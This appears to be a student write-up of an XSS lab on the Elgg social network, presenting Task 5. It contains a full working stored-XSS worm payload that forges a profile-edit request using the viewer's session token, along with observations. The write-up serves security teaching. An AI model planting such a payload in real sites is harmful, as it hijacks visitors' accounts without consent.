




## Task 5: Modifying the Victim’s Profile

**Objective:** Write an XSS worm to modify the visitor's profile when they view Samy's page.

**Steps:**
- Use the HTTP Header Live add-on to inspect the HTTP POST request sent when modifying a profile.
- In the "About Me" section, enter the following JS code with the appropriate HTTP request content constructed.
```HTML
<script type="text/javascript">
        window.onload = function() {
            var userName = "&name=" + elgg.session.user.name;
            var guid = "&guid=" + elgg.session.user.guid;
            var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
            var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
        
            var description = "&description=Samy is my hero";
        
            var otherFields = "&accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2"
        
            var content = token + ts + userName + description + otherFields + guid;
        
            var samyGuid = 47;
        
            var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
        
            if (elgg.session.user.guid != samyGuid) {
                var Ajax = null;
                Ajax = new XMLHttpRequest();
                Ajax.open("POST", sendurl, true);
                Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
                Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
                Ajax.send(content);
            }
        }
    </script>
```


*Script Injection*


*Initial About Me description of Alice*


*Visiting Samy's profile*


*About Me of Alice changed after visiting*

**Observation:**  When another user views Samy's profile, the malicious JavaScript code is executed, and the visitor's profile is modified.

### Questions

1. **Question 3:** Why do we need Line 1? Remove this line, and repeat your attack. Report and explain your observation.
    - The line is needed to prevent the code from modifying Samy's own profile, which could lead to an infinite loop. Removing this line causes Samy's profile to be continuously modified when viewed.